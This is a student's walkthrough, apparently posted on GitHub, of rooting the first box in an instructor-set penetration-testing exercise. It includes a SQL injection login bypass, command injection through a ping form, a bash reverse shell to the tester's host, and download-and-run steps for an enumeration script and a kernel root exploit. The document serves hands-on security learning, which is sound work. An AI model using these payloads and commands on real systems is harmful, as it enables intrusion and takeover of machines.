 # Keys to the Kingdom Pt. 1
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

### It begins...
This is how it started, with a post from an instructor of mine in our class' Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys hes talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. \

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them dont tell me much. Theyre all around 90 in length. Maybe hidden within here is something more substantial. So I sort by length and find a file thats a bit longer. 

![S](Images/ThatsBetter.png)

Thats much better! We found a full openVPN key. With a little research about openVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes portscanning so much quicker and more automated by quickly telling you which ports are up and then constructing an nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway's, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the lowhanging fruit (and the best option here), I decide to go check out the website on `port 8080`. Im greeted with a basic admin login page with the url extension `index.php`. This lets gives me an idea that I may be able to preform an sql injection but Im still not sure.

![S](Images/phpAdminPage.png)

So, I fire up BurpSuite and check out whats happening when i hit the login button.

![S](Images/burping.png)

Ok there's probably something here. 
Lets send this to the repeater module in Burp and check out whats going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
Im focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console..

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always I set up a netcat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheatsheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

Now we have to escalate our privileges. This is the part that took me the longest on this box as I was running around searching for an exploit that would work here. But we will skip over all of that and get straight into the meat. First I needed to check who I was, `id` let me know that I was apache and a `pwd` showed that I spawned in the `/var/www` directory.
Then I quickly upgraded my shell using `python -c 'import pty; pty.spawn("/bin/bash")'`
I couldnt touch any of the user accounts and I most definately didnt have root access. So, I decided to go to `/tmp` and see if I could place any files in there.
A quick `touch 1.txt` inside the directory, confirmed that I could. So, I went and grabbed a copy of linenum.sh, and saved it into my local directory where I was keeping all of the information about this box (nmap scans, notes, exploit code, etc.). 
**Note:** staying organized durring engagements is incredibly important. What I often do is create a subdirectory within my home directory and just work out of that the whole time. This helps keep everything organized and lets me refer back to things later if needed.


On my machine:

`python3 -m http.server`

On target machine:

`wget http://m.y.i.p:8000/linenum.sh`

`chmod +x linenum.sh`

`./linenum.sh`

Unfortunately I didnt get much information out of that, but I got enough. Which allowed me to go and search for an exploit to escalate my privileges.

![S](Images/linenumOutput.png)

#### The Final Stage

Now that the OS and Kernel version are both confirmed, its a good time to go search for a relevant exploit. I chose to use searchsploit for this on my KaliBox.. 

![S](Images/searchsploit.png)

This first exploit looks promising. So, I copy the file to my engagement directory `cp /usr/share/exploitdb/exploits/linux/local/9545.c /your/engagement/directory/9545.c`and start a python http server inside of it `python3 -m http.server`

The server defaults to port 8000, so on the target machine (in /tmp) I ran `wget http://m.y.i.p:8000/9545.c` which copied the exploit over to the target machine.

![S](Images/exploitcopy.png)

Finally, its time to compile and exploit. This can all be done with one single command by to using the gcc compiler on 9545.c and outputting to another file called 9545. Then using `&&` I run the new 9545 file after the compiling is completed.  

The final command looks like this: `$ gcc 9545.c -o 9545 && ./9545`

![S](Images/rootaccess.png)
**We have root**

### Final thoughts on this first box

I had a great time with this exercise. It was a good way to get some practice with linux privlige escalation exploits that I dont often get. Most of my experience with linux priv esc comes in the form of exploiting cronjobs or suid permissions. So, needless to say this was a welcome change of pace for me. 

Any questions? Feel free to contact me via email: jwautry93@gmail.com you can also reach out to me on linkedin.

**Thanks for reading**
